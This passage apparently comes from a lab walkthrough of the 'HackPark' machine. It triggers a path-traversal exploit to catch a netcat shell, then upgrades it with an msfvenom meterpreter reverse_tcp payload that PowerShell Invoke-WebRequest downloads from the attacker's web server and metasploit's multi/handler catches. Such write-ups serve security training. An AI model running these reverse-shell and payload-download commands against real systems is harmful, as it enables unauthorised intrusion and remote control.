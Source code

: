 <br>

Now we set a netcat listener on our attacking machine, and navigate to `?theme=../../App_Data/files` on our victim website to trigger the exploit.
<br>
<br>

![](assets/images/hackpark/hackpark_initial.png)
<br>
<br>

## Upgrading the Shell  

The next step is to upgrade our shell. I'll be using metasploit for this shell upgrade. We can use powershell to upload a `msfvenom` payload and connect with the `multi/handler` on metasploit. You can find a good amount of `msfvenom` commands [here](https://netsec.ws/?p=331). Here's my command:
<br>
<br>


`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
<br>
<br>

The next step is to upload our payload to the victim machine. I'll first spin up a webserver in the directory with my payload using `python3 -m http.server` I'm sure there's a command we can use striaght from the command prompt, but I'm going to upload it with powershell in the `C:\Windows\Temp` folder. After navigating to the proper directory, here's the command for the file upload:
<br>
<br>

`powershell Invoke-WebRequest http://<your-ip>:8000/<payload> -OutFile <payload-name>`
<br>
<br>

Once the file's been uploaded, we need to set up metasploit. Type `use multi/handler` and set the `LHOST` and `LPORT` values to the same values in the payload. Be sure to set your payload as `windows/meterpreter/reverse_tcp` as well. Then run the exploit with `run`. Metasploit will listen for the payload. Switch over to the victim machine and simply run the payload, which in my case is simply `shell.exe`.
<br>
<br>
